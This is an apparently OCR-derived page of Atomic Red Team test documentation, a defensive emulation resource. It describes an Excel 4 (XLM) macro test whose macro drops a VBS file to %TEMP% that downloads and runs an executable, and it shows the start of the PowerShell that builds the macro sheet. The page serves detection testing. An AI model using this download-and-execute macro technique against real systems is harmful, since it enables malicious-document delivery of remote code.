 #### Dependencies: Run with `powershell`!

##### Description: Microsoft #{ms_product} must be installed

##### Check Prereq Commands:

```powershell
try {
  New-Object -COMObject "#{ms_product}.Application" | Out-Null
  $process = "#{ms_product}"; if ( $process -eq "Word") {$process = "winword"}
  Stop-Process -Name $process
  exit 0
} catch { exit 1 }
```

##### Get Prereq Commands:

```powershell
Write-Host "You will need to install Microsoft #{ms_product} manually to meet this requirement"
```

<br/>
<br/>

## Atomic Test #6 - Excel 4 Macro

This module creates an Excel 4 Macro (XLM) enabled spreadsheet and executes it. The XLM will first write a "malicious"
VBS file to %TEMP%, then execute this file. The VBS will download Process Explorer to the same directory (%TEMP%) and exec.

A note regarding this module. By default, this module will pull the current username from the system and places it into the macro. If
you'd like to utilize the "=GET.WORKSPACE(26)" method, that many maldoc authors use, you will need to ensure that the User Name associated
with Excel matches that of the local system. This username can be found under Files -> Options -> Username

**Supported Platforms:** Windows

**auto_generated_guid:** 4ea1fc97-8a46-4b4e-ba48-af43d2a98052

#### Inputs:

| Name         | Description          | Type   | Default Value                             |
| ------------ | -------------------- | ------ | ----------------------------------------- |
| download_url | Download URL         | string | https://live.sysinternals.com/procexp.exe |
| uname        | Username for pathing | string | $env:Username                             |

#### Attack Commands: Run with `powershell`!

```powershell
$fname = "$env:TEMP\atomic_redteam_x4m_exec.vbs"
$fname1 = "$env:TEMP\procexp.exe"
if (Test-Path $fname) {
  Remove-Item $fname
  Remove-Item $fname1
}

$xlApp = New-Object -COMObject "Excel.Application"
$xlApp.Visible = $True
$xlApp.DisplayAlerts = $False
$xlBook = $xlApp.Workbooks.Add()
$sheet = $xlBook.Excel4MacroSheets.Add()

if ("#{uname}" -ne "") {
```